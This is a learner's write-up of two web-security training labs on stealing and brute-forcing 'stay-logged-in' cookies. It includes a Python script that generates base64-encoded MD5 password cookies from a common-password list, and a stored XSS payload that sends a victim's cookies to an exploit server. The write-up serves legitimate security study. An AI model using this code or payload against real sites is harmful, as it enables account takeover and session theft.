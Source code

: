 ## Keeping users logged in

A common feature is the option to stay logged in even after closing a browser session. This is usually a simple checkbox labeled something like "Remember me" or "Keep me logged in".

This functionality is often implemented by generating a "remember me" token of some kind, which is then stored in a persistent cookie. As possessing this cookie effectively allows you to bypass the entire login process, it is best practice for this cookie to be impractical to guess. However, some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp. Some even use the password as part of the cookie. This approach is particularly dangerous if an attacker is able to create their own account because they can study their own cookie and potentially deduce how it is generated. Once they work out the formula, they can try to brute-force other users' cookies to gain access to their accounts.

Some websites assume that if the cookie is encrypted in some way it will not be guessable even if it does use static values. While this may be true if done correctly, naively "encrypting" the cookie using a simple two-way encoding like Base64 offers no protection whatsoever. Even using proper encryption with a one-way hash function is not completely bulletproof. If the attacker is able to easily identify the hashing algorithm, and no salt is used, they can potentially brute-force the cookie by simply hashing their wordlists. This method can be used to bypass login attempt limits if a similar limit isn't applied to cookie guesses.

## Lab: Brute-forcing a stay-logged-in cookie

--> This website is storing the password in the `stay-logged-in` cookie in the encrypted form.

So we have to pass this request to intruder and then brute force the `stay-logged-in` cookie for `carlos` user

![](Attachments/Pastedimage20220204131145.png)

--> but first we have to logout because it will redirect us to this page only if we are logged in without checking the cookie.

And to encrypt the passwords according to cookie logic i made one python script:

```py
import hashlib
import base64

passwords = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]

converted = []
for password in passwords:
	hash_object = hashlib.md5(password.encode())
	md5_hash = hash_object.hexdigest()
	md5_hash = str(md5_hash)
	myCookie = "carlos:"
	myCookie += md5_hash
	convert_b64_bytes = myCookie.encode('ascii')
	base64_bytes = base64.b64encode(convert_b64_bytes)
	base64_string = base64_bytes.decode("ascii")
	base64_string = str(base64_string)

	converted.append(base64_string)

for word in converted:
	print(word)



# sample_string = "GeeksForGeeks is the best"
# sample_string_bytes = sample_string.encode("ascii")

# base64_bytes = base64.b64encode(sample_string_bytes)
# base64_string = base64_bytes.decode("ascii")
```

--> After running the python file i got all the encoded_cookies so now just we have to brute force them!

And after some time i found the correct cookie which gave us `200` status code!

![](Attachments/Pastedimage20220204131645.png)

And we solved the lab!

![](Attachments/Pastedimage20220204130542.png)

---

Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. Using the usual techniques, such as [XSS](https://portswigger.net/web-security/cross-site-scripting), an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that. If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.

In some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption.

# Lab: Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

--> So first i logged in as `wiener` and then i found that we can comment on any post so i opened one post and commented the stored XSS payload :

```markup
<script>document.location='//exploit-acc81fe51e0eddf3c0598bf601660076.web-security-academy.net/'+document.cookie</script>
```

![](Attachments/Pastedimage20220204143051.png)

--> After posting the comment i went to `exploit server` and then went to `access logs` and found the cookie of `carlos`

![](Attachments/Pastedimage20220204143159.png)

--> After decoding the cookie from `base64` and `md5` i found the password as `onceuponatime` and i logged in as `carlos` and now we have to delete the account of carlos so click on delete account

![](Attachments/Pastedimage20220204134737.png)

--> It will ask for password, click `delete account!`

![](Attachments/Pastedimage20220204134800.png)

And we solved the lab!
